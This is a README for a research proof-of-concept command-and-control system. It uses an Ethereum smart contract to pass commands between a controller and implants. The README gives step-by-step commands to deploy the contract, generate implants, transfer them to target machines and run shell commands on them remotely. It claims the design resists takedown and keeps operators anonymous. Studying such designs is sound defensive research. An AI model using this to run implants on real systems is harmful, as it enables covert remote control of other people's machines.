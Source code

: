 # About
UnblockableChains is a POC project of a fully functional C&C infrastructure on top of the public Ethereum network. The POC demonstrates a novel channel for implant and controller communications by using smart contract as intermediate. It was developed as a research project to evaluate this communication channel in order to test its feasibility and wether or not blockchain might actually be used in real malicious campaigns.

By leveraging the blockchain as intermediate, the infrastructure is virtually unstoppable, dealing with most of the shortcoming of regular malicious infrastructures. Namely:
- Secure communications – Immune to data modifications, eavesdropping, MITM, replay attacks (V)
- High availability – node can always find the C&C (V)
- Scalable – Can support any number of implants and any load of transactions. (VX)
- Authentication – Only valid implants can connect, And only once. Resist replays, honeypotting. (V)
- Anonymity – No info can be gained on network operators. (V)
- Zero data leakage – No data can be gathered on other implants, data or network structure. (V)
- Takedown resistant – No single point of failure. Fully TNO. (V)
- Takeover resistant – No vulnerabilities or logic path that allows adversarial control of network. (V)
- Low operational costs (X)

Smart Contract is written in solidity, controller and implant code in python (using ![web3.py](https://github.com/ethereum/web3.py))


Demo Video:

[![DEMO](https://img.youtube.com/vi/82BalW09F54/0.jpg)](https://youtu.be/JLUM2BbzBqs)


# Disclaimer
This project was created for Educational and Research purposes only. Its only purpose is to educate the security community of new and possibly emerging vector that attackers might use in the future. Illegal use of this and its variants or inclusion of it in illegal activities is not encouraged by its author (and was activly discouraged by removing some key components, see what is not included section below).  

# Features
- Controller panel
- Autorun & sync geth node
- Private / Rinkeby testnet / Mainnet work modes
- Contract deployment
- Wallet generation
- Implant generation
- Access management
- Send commands, execute, and return results from implants
- Fund transfers

### What is not included (yes, on purpose)
- Implant packaging, obfuscating and delivery methods
- Industry grade public Encryption
- MachineId code


# Installation
Runs on linux or Windows 10 (with linux subsystem installed) only.

`git clone --depth 1 https://github.com/platdrag/UnblockableChains`

`cd UnblockableChains`

`python3 -m venv .\venv`

Windows: `venv\Scripts\activate.bat`

Linux: `venv\Scripts\activate`

`pip install -r requirements.txt`

* Windows: visual studio build tools might be needed

### Dependencies
- see requirements.txt

# Usage 
Following instruction are for **linux**. For Windows just replace / with \ in paths
### Using the CLI
Edit the deployment script (optional):

`conf/deployment/DeploymentConf.BASE.yaml`

Run the server bootstrap script. It will generate owner account, run a local full geth node, deploy the smart contract and create all necessary configuration to run controller UI. Optional:

`export PYTHONPATH=./src && python3 src/Server/DeployUnstoppableCnC.py .`  (use -h for more options)

Run the server in interactive mode & use the `sc` object to issue commands:

`python3 -i src/Server/ServerCommands.py .`   (use -h for more options)

* Available commands: 
-- generateNewClientInstance (clientConfTemplateFile, fundValue, clientNodeRpcPort)
-- allowInstance (instanceAddress)
-- removeInstance (instanceAddress)
-- addWork (instanceAddress, command)
-- fundTransfer (instanceAddress, fundValue)

Generate a new bot client instance:

`>>> sc.generateNewClientInstance('conf/clientGen/ClientConf.TEMPLATE.yaml', 1000000000000000000, port=30304)`

Note the generated wallet address. Implant will be placed under `./generated/<GeneratedWalletAddress>`
Transfer the implant generated directory to destination machine and run it:

`export PYTHONPATH=./src && python3 -i ./src/Client/ClientCommands.py . ./conf/clientConf.yaml`   (use -h for more options)

Client will run its own node, sync in light mode, contact the contract and register with it. If successful, it will start a listener for incoming commands.

Once client has registered, back on the server side use interactive shell to add work to the client:

``` 
>>> sc.addWork('0xa55be06a805566d480103cea559c4d1bc3f729d2', 'echo awesome')
// ... log output
... confirmed match between instance issued command and result: ['echo awesome', 'awsome']
```

### Using the web UI
Run the deployment script as described above
Create `static/`, `templates` dir symlinks:

`ln -s src-webapp/static .`
`ln -s src-webapp/templates .`

Run the webapp:

`export PYTHONPATH=src && python3 src-webapp/ecnc-webapp.py`

Access `http://127.0.0.1:5000/`

Generate one or more implants

Run client nodes as described above

Wait for the clients to register

Add/rm clients from index

Run shell commands on index-included clients 

# Troubleshooting
## handling 'insufficient funds for gas' during transactions
- this may present itself in the following form:

    File "/usr/local/lib/python3.6/dist-packages/web3/manager.py", line 106, in request_blocking
      raise ValueError(response["error"])
    ValueError: {'code': -32000, 'message': 'insufficient funds for gas * price + value'}

- fix: make sure no previous instance of geth is running

## handling web3 version incompatibilities
- this may present itself in the following form:

    Traceback (most recent call last):
      File "src/Server/DeployUnstoppableCnC.py", line 310, in <module>
        contract = deployContract (web3, conf, conf['contractAddress'])
      File "src/Server/DeployUnstoppableCnC.py", line 71, in deployContract
        ContractFactoryClass=ConciseContract)
    TypeError: contract() takes from 1 to 2 positional arguments but 3 were given

- fix: make sure you are using python web3 version 3.x

# Todos (Future work)
- Implement public key encryption
- Split fund to generated implant to a small fee up front that will suffice only registration and then transfer the rest after registration.
- Support multiple contract addresses
- Support placing command/result data to Swarm, only put hash on blockchain. 
- Allow Transfer messages using whisper
- Allow controller the return funds from a compromised implant account.
